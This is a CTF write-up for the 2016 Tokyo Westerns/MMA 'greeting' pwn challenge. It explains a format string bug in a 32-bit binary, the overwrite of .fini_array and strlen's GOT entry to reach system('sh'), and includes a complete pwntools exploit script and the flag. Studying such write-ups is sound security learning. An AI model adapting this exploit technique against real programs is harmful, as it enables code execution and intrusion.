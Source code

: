 title: MMA 2nd CTF 2016 -- greeting
tags:
  - MMA
  - CTF
  - format_string
  - python
  - Pwnable
categories:
  - write-ups
author: bruce30262
date: 2016-09-12 15:49:00
---
**Category:** pwn
**Points:** 150  

<!-- more -->  
  
After a long period of time without playing any CTF, I finally finished my master's degree and have time to enjoy some CTF challenges. And then there is the **Tokyo Western/MMA 2nd CTF**, the first CTF I played in 2016.  
  
The challenge gave us a 32 bit ELF. The program will first use `system` to echo some message, then it will ask us to input our name, and print the greeting message. We can see that there exist a format string vulnerability in the main function:  
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
    int result; // eax@2
    int v4; // edx@4
    int v5; // [sp+1Ch] [bp-84h]@2
    int v6; // [sp+5Ch] [bp-44h]@1
    int v7; // [sp+9Ch] [bp-4h]@1

    v7 = *MK_FP(__GS__, 20);
    printf("Please tell me your name... ");
    if ( getnline((char *)&v6, 64) )
    {
        sprintf((char *)&v5, "Nice to meet you, %s :)\n", &v6);
        result = printf((const char *)&v5); // <-- format string 
    }
    else
    {
        result = puts("Don't ignore me ;( ");
    }
    v4 = *MK_FP(__GS__, 20) ^ v7;
    return result;
}
```

As we can see that the program ends directly after it print out the greeting message, so it's kind of hard for us to do the GOT hijacking attack. After discussing with my teammate, we found that there's one more place we can overwrite the function pointer: **the `.fini_array` section**.  
  
So, we can first overwrite the **first entry** of the `.fini_array` section and hijack the control flow. Notice that we can only input 64 bytes characters, and that's kind of hard for us to write both `system`'s address and `sh`'s string into the memory buffer. Here's what we can do :  
  
* Overwrite both `.fini_array` section and `strlen`'s GOT entry. We replace the first entry of the `.fini_array` section into **main function's address**, while `strlen`'s GOT entry be changed into `system`'s PLT.  
* The program will then return to the main function. Since `strlen`'s GOT has already been changed into `system`'s address, we can then input `sh` and execute `system("sh")` during the `getnline` function (the function will call `strlen` on our input).  

```python exp_greeting.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "pwn2.chal.ctf.westerns.tokyo"
PORT = 16317
ELF_PATH = "./greeting"
LIBC_PATH = ""

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def fmtstr(payload, prints, index, data, byte=1):
    """
    data: data that want to be written into the address
    index: stack position (ex. %7$n --> index = 7)
    prints: total charaters that have been print out
    payload: whole payload string, initial value are addresses

    ex.  payload = p32(addr) + p32(addr2) + p32(addr3)
         prints = 12
         payload, prints = fmtstr(payload, prints, 7, 0xa0a0, 2)
         payload, prints = fmtstr(payload, prints, 8, 0xc0, 1)
         payload, prints = fmtstr(payload, prints, 9, 0x08047654, 4)
    """

    if data - prints > 0:
        num = data - prints
    else:
        num = data + 256**byte - prints
        while(num <= 0):
            num += 256**byte
    
    payload += "%" + str(num) + "c" 
    prints = data

    if byte == 1:
        payload += "%" + str(index) + "$hhn"
    elif byte == 2:
        payload += "%" + str(index) + "$hn"
    elif byte == 4:
        payload += "%" + str(index) + "$n"
    elif byte == 8:
        payload += "%" + str(index) + "$lln"

    return payload, prints

def fmtstr_scan(cnt):
    return '.'.join( "%"+str(i)+"$p" for i in xrange(1,cnt+1))

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    payload = "AA"+p32(0x08049934) + p32(elf.got['strlen']) + p32(elf.got['strlen']+2) 
    prints = len(payload) + 18
    payload, prints = fmtstr(payload, prints, 12, 0x85ed, 2)
    payload, prints = fmtstr(payload, prints, 13, 0x8490, 2)
    payload, prints = fmtstr(payload, prints, 14, 0x0804, 2)
    print payload
    print len(payload)

    r.sendlineafter("... ", payload)
    r.sendlineafter("... ", "sh\x00")

    r.interactive()
```
  
flag: `TWCTF{51mpl3_FSB_r3wr173_4nyw4r3}`